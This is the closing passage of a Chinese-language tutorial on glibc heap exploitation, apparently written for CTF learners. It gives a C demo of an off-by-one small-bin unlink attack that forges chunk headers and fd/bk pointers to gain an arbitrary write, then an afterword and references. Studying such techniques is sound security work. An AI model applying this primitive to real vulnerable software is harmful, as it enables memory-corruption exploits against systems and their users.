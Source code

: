 可以成功的对B2进行任意读写。

4.off-by-one small bin

1234567891011121314151617181920212223242526272829void *ptr;int main(void){ int prev_size,size,fd,bk; void *p1,*p2; char buf[253]=""; p1=malloc(252); p2=malloc(252); ptr=p1; prev_size=0; size=249; fd=(int)(&ptr)-0xC; bk=(int)(&ptr)-0x8; memset(buf,'c',253); memcpy(buf,&prev_size,4); memcpy(buf+4,&size,4); memcpy(buf+8,&fd,4); memcpy(buf+12,&bk,4); size=248; memcpy(&buf[248],&size,4); buf[252]='\x00'; memcpy(p1,buf,253); free(p2);}

这个DEMO中使用了一个指向堆上的指针ptr，ptr是全局变量处于bss段上。通过重复写ptr值即可实现write-anything-anywhere。

0x08 后记

这是本人第一次投稿原创文章，之前只是写写博客。文笔不好，错误也在所难免，希望大家包容下。

参考文档：

CTF中的内存漏洞利用技巧 -清华大学网络与信息安全实验室 

Google Project Zero Blog

glibc_malloc from github 

Glibc Adventures: The Forgotten Chunks